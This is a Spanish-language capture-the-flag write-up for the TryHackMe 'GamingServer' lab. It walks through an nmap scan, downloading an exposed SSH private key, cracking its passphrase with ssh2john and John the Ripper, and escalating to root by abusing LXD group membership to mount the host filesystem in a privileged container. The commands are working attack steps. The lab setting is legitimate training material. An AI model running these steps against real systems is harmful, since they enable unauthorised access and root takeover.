 ```yaml
---
layout: single
title: Writeup THM - GamingServer
comments: true
excerpt: "La maquina GaminServer es una maquina linux - Easy, encontramos una pagina web donde encontramos en el directorio secret un archivo llamado secretKey que nos servira para crackear con ssh2john obteniendo el passphrase que nos permitira accediendo por ssh con dicha secretKey, escalamos privilegios a root ya que nuestro usuario john pertenece al grupo lxd."
date: 2022-02-10
classes: wide
header:
  teaser: /assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP  
  - Hacking
  - Easy
  - ssh
  - id_rsa
  - ssh2john
  - john 
  - lxd
---
```


# GamingServer
<p align="center">
<img src="/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled.png">
</p>

## Resumen
<div style="text-align: justify">
La maquina GaminServer es una maquina linux - Easy, encontramos una pagina web donde encontramos en el directorio secret un archivo llamado secretKey que nos servira para crackear con ssh2john obteniendo el passphrase que nos permitira accediendo por ssh con dicha secretKey, escalamos privilegios a root ya que nuestro usuario john pertenece al grupo lxd.
</div>

## Scan Nmap

```bash
# Nmap 7.92 scan initiated Wed Feb  9 16:56:28 2022 as: nmap -sC -sV -p22,80 -oN targeted -Pn -vvv 10.10.95.120
Nmap scan report for 10.10.79.255
Host is up, received user-set (0.19s latency).
Scanned at 2022-02-09 16:56:29 -05 for 14s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  9 16:56:43 2022 -- 1 IP address (1 host up) scanned in 14.77 seconds
```

## Pagina web - Port 80

revisamos la pagina web, vemos que una pagina relacionado a un tipo de juego

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%201.png)

si revisamos robos.txt vemos que existe un directorio uploads

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%202.png)

si vamos a uploads, vemos que podemos acceder a

```bash
- dict.lst  -> diccionario de password
- manifesto.txt -> relato 
- meme.jpg -> imagen
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%203.png)

tambien revisamos el directorio secret y que tenemos un archivo llamado secretKey

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%204.png)

todo parece indicar que secretKey es un llave privada para conectarnos por ssh

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%205.png)

guardamos secretkey como id_rsa e intentamos conectarnos por ssh pero lamentablemente nos pide passphrase

```bash
GamingServer # ❯ ssh -i id_rsa john@10.10.232.84
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%206.png)

por lo tanto crackearemos con ssh2john y john the ripper para obtener el passphrase

```bash
GamingServer # ❯ ssh2john id_rsa > id_rsa.hash
GamingServer # ❯ john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
1g 0:00:00:38 DONE (2022-02-09 18:26) 0.02626g/s 376719p/s 376719c/s 376719C/s     1990..*7¡Vamos!
Session completed
```

ahora que tenemos el passphrase que es letmein, nos conectamos por ssh

```bash
GamingServer # ❯ ssh -i id_rsa john@10.10.232.84
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%207.png)

una vez conectados leeremos la flag del user.txt

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%208.png)

## Escalacion de Privilegios - User Root

al ejecutar el comando id, vemos que pertenecemos al grupo lxd. Por lo tanto se me ocurre escalar por esta via

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%209.png)

revisare un articulo de hacktricks 

```bash
https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation
```

asi que en mi maquina ejecutare dichos comandos

```bash
sudo su
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
sudo go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

el resultado de ejecutar dichos comandos seran los lxd.tar.xz y rootfs.squashfs

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%2010.png)

dichos archivos lo subiremos a la maquina victima para nos situaremos en la carpeta de estos archivos y crearemos nuestro servidor web de python

```bash
alpine # ❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%2011.png)

descargamos los archivos en la maquina victima

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%2012.png)

agregamos una imagen

```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%2013.png)

creamos un container y agregamos la ruta del root

```bash
lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

ejecutamos el container

```bash
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%2014.png)

gracias por leer este writeup, nos vemos AbelJM